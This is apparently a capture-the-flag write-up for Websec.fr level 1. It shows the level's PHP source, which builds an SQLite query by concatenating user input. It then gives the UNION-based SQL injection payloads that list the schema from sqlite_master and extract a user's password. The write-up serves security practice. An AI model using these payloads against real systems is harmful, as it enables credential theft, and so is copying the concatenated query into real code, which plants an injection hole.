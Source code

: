 ```yaml
---
title: Websec.fr level 1 - baby steps
date: May 11, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/4fa7221e-d261-4cdb-8d9f-bd816d2a92c2)
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/b75c5333-2532-42d2-89a4-85ff040dd635)


source code:
```php
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>
```

so we can see that the query 
```php
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
```

selects id, username from users where id is something. Great!<br>
we want to [UNION](https://www.w3schools.com/sql/sql_union.asp) another query that will take a password, or something that can give us the flag. Let's check the sql scheme from [sqlite_master](https://renenyffenegger.ch/notes/development/databases/SQLite/internals/schema-objects/sqlite_master/index)

```sql
1, UNION SELECT 1,sql FROM sqlite_master
```
(Remember, the union sql has to be the same amount of columns as the first sql query)

![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/59e9aac3-1716-4e08-846a-83162828b9dd)

Look ! we have a password field, lets try to get that

```sql
1 UNION SELECT id, password FROM users WHERE id=1
```
so that complete sql query is 
```sql
SELECT id, username FROM users WHERE id=1 
UNION 
SELECT 1, password FROM users WHERE id=1 LIMIT 1;
```
![image](https://github.com/eladyesh/Anti_Virus/assets/102996033/5da83c7a-7ace-48e4-a34c-41f3a8149c6a)

Got it !
Thanks for reading



